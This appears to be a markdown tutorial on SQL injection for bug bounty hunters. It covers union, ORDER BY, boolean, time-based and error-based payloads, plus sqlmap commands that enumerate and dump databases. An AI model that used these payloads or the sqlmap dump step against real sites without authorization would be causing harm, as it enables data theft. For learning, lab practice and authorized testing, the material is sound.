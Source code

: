 ## SQL Injection (SQLi) — Complete Overview

SQL Injection is one of the most common and critical web vulnerabilities where an attacker can interfere with the queries that an application makes to its database. It allows unauthorized access, data leakage, and in some cases, full system compromise.

---

### Manual Testing for SQLi

Manual SQLi is often tested through user input fields like search boxes, login forms, or URL parameters. Basic types of manual injections include:

#### Union-Based Injection

Used to fetch data from other tables via the `UNION` keyword.

```sql
' UNION SELECT 1,2,3-- -
```

#### Order By Injection

Used to identify the number of columns.

```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
...
```

Stop when the query breaks — that's your column count.

---

### Automated Testing Using SQLmap

SQLmap is a powerful tool to automate SQL Injection detection and exploitation.

#### Common Usage Patterns:

```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

* `--dbs`: Lists all available databases.
* `-D [database] --tables`: Lists all tables in the specified database.
* `-D [database] -T [table] --columns`: Lists all columns of the specified table.
* `--dump`: Dumps data from the target database/table.

---

## Blind SQL Injection

Blind SQLi occurs when there is no visible output, but the application’s behavior or response time reveals information.

### 1. Substring-Based Blind SQLi

Used for brute-forcing data character by character.

```sql
SELECT SUBSTRING(database(),1,1)
```

Condition-based delay injection:

```sql
SELECT IF(SUBSTRING(database(),1,1)='a', SLEEP(3), 'b')
```

Or for binary search approach:

```sql
SELECT IF(SUBSTRING(database(),1,1)>'m', SLEEP(3), 'a')
```

### 2. Boolean-Based Blind SQLi

Observe true/false logic:

```sql
' AND 1=1-- -
' AND 1=2-- -
```

Different response pages or content confirms injection.

### 3. Time-Based Blind SQLi

Check delay in server response:

```sql
' OR SLEEP(5)-- -
```

If the response is delayed, the application is likely vulnerable.

### 4. Error-Based SQLi

For databases configured to display SQL errors:

```sql
' OR 1=1 ORDER BY CASE WHEN (1=1) THEN NULL ELSE column_name END-- -
```

This triggers database errors and reveals backend structure.

🔗 [Live SQLi Simulation Playground (DB Fiddle)](https://www.db-fiddle.com/f/nLpyQDMd49iRygnY9H7CB8/5)

---

## Where Can Blind SQLi Exist?

* **URL Parameters**
* **POST Data**
* **Cookies (e.g., `TrackingId`)**
* **Session Tokens**

Example from PortSwigger labs demonstrates SQLi in `TrackingId` cookie — a good reminder to test beyond just URLs!

---

## Bug Bounty Tip:

Even low-level SQLi vulnerabilities (like blind or in cookies) can fetch:

* 🔒 **\$100 to \$500** on platforms like HackerOne and Bugcrowd.
* 🔐 High CVSS ratings if it leads to data leakage or privilege escalation.

---

### 🔹 Real-world Examples:

* [HackerOne Reports – SQLi](https://hackerone.com/hacktivity?filter=type%3Apublic&query=report_type%3A%22vulnerability%20report%22%20sql)
* [HackerOne Reports – NoSQLi](https://hackerone.com/hacktivity?filter=type%3Apublic&query=nosql)
